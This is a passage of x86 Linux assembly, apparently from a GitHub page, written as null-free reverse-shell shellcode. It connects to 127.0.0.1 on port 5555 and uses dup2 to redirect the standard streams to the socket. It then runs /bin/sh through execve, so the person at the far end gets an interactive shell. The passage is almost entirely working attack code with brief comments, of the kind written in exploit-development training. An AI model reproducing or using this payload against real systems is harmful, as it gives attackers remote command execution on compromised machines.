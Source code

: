 ```nasm

	xor eax, eax
	mov ax, 0x16a 
	mov ebx, edi
	xor ecx, ecx
	push ecx		; pushing our 8 bytes of zero as per: home.iitk.ac.in/~chebrolu/scourse/slides/sockets-tutorial.pdf
				      
	
	mov ecx, 0x02010180     ; moving 2.1.1.128 into ecx
	sub ecx, 0x01010101     ; subtracting 1.1.1.1 from ecx
	
	push ecx		      ; putting 1.0.0.127 onto the stack (null free)
	push word 0xb315	      ; port 5555
	push word 0x02		      ; AF_INET
	
	mov ecx, esp
	mov dl, 16
	
	int 0x80

	; SYSCALL #3 = dup2()

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	mov cl, 0x3
	
	loop_dup2:
	mov al, 0x3f
	mov ebx, edi
	dec cl
	int 0x80
	
	jnz loop_dup2

	; SYSCALL #4 = execve()
 
  	xor eax, eax
	push eax
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 0x0b

  	int 0x80

```

